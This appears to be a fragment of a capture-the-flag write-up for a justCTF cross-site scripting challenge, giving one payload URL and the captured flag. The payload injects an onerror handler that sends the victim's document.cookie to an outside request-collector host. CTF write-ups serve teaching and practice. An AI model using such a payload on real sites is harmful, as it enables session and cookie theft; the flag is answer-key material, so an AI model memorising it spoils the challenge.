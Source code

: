 `http://xssl.web.jctf.pro/?text=[%0a]&unmodifiable[background]=' onerror=navigator.sendBeacon('https://enyuyuolafpzh.x.pipedream.net/'+document.cookie)//&unmodifiable[CSP]=sdfsdf`

```
justCTF{M4nY_L4y3rS_M4nY_f4ilur3s_ae5bda97-8543-4a4b-84bf-22c6a0df6bdf}
```